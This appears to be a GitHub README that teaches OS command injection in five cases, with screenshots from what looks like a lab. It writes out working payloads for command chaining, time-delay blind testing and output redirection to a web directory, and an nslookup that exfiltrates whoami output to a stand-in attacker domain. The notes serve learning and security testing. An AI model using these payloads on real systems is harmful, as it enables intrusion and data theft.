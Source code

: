 # There are many instances of OS command injection.

## case 01 --> Simple Case :

Description: 
In this scenario, the attacker tries to perform a simple OS command injection by injecting shell metacharacters such as 
```
|, ;, &&, or || 
```
followed by a system command (e.g., uname -a). These characters are commonly used to chain or execute multiple commands in Unix-like systems.

The attacker can use one of several payload formats to test for command injection, such as:
```
| <command> → e.g., | uname -a

; <command> → e.g., ; whoami

&& <command> → e.g., && id

|| <command> → e.g., || ls
```
```
Payload: | uname -a
```
>This command will print basic system information.

![image](https://github.com/user-attachments/assets/025dc2c1-dbb9-4d9b-b962-2e80b3a62d58)

---

## case 02 --> Blind OS command injection using time delays:
Description :
Blind OS command injection occurs when an attacker injects commands into an application, but the results aren't directly visible. In time-based blind injection, the attacker uses time delays to infer whether a command was successfully executed.
```
Payload: ||ping+-c+20 127.0.0.1||
```
>  This command will cause the application to ping its loopback network adapter for 20 seconds.

![image](https://github.com/user-attachments/assets/5235d08b-7ef2-4de5-a5b7-62fc877fa891)

---

## case 03 --> Blind OS command injection by redirecting output :
Description : 
- Blind OS Command Injection by redirecting the output of a system command to a file within the web application's accessible directory (e.g., /var/www/html/, or any other path exposed on the server).
- Since the application does not return the result of the command directly in the HTTP response, the attacker uses output redirection operators (> or >>) to write the output to a file, and then accesses that file via browser to read the command result.

```
Payload: ||whoami>/var/www/images/output.txt||
```
> The > character sends the output from the whoami command in the specified file. You can then use the application to fetch output.txt to retrieve the file and view the output from the injected command.

![image](https://github.com/user-attachments/assets/40e036c7-74ef-4168-8f3a-a74b64da551e)

![image](https://github.com/user-attachments/assets/e17957d8-b87b-4d26-86e5-bf99ccfa4215)

---

## case 04 --> Blind OS command injection using out-of-band techniques :

```
Payload: ||nslookup+webattacker.com||
```
Description :
The payload uses the nslookup command to cause a DNS lookup for the specified domain.

![image](https://github.com/user-attachments/assets/baae3e0a-7c88-419a-a54b-9ed2edd96596)

---

## case 05 -->  Blind OS command injection with out-of-band data exfiltration :

```
Payload: ||nslookup+`whoami`.webattacker.com||
```

Description: The above payload will cause a DNS lookup to the attacker’s domain containing the result of the whoami command.

![image](https://github.com/user-attachments/assets/b15ecb2b-b709-45f0-a559-5dca419d26e1)
